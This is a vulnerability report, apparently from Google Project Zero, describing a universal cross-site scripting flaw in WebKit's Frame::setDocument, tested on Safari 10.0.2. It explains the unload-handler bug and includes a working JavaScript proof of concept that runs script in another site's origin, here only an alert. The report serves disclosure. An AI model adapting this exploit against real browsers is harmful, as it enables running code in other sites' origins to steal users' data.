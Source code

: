 # UXSS via Frame::setDocument
### Reported by lokihardt@google.com, Dec 20 2016

Here's a snippet of `Frame::setDocument`.
```cpp
void Frame::setDocument(RefPtr<Document>&& newDocument)
{
    ASSERT(!newDocument || newDocument->frame() == this);

    if (m_doc && m_doc->pageCacheState() != Document::InPageCache)
        m_doc->prepareForDestruction();

    m_doc = newDocument.copyRef();
    ...
}
```
Before setting `m_doc` to `newDocument`, it calls `prepareForDestruction` that fires unload event handlers. If we call `Frame::setDocument` with the new document `a`, and call `Frame::setDocument` again with the new document `b` in the unload event handler. Then `prepareForDestruction` will be never called on `b`, which means the frame will be never detached from `b`.

PoC:
```js
"use strict";

let f = document.documentElement.appendChild(document.createElement("iframe"));
let a = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));

a.contentWindow.onunload = () => {
    f.src = "javascript:''";

    let b = f.contentDocument.appendChild(document.createElement("iframe"));
    b.contentWindow.onunload = () => {
        f.src = "javascript:''";

        let doc = f.contentDocument;

        f.onload = () => {
            f.onload = () => {
                f.onload = null;

                let s = doc.createElement("form");
                s.action = "javascript:alert(location)";
                s.submit();
            };

            f.src = "https://abc.xyz/";
        };

    };
};

f.src = "javascript:''";
```

Tested on Safari 10.0.2(12602.3.12.0.1).

https://bugs.chromium.org/p/project-zero/issues/detail?id=1057
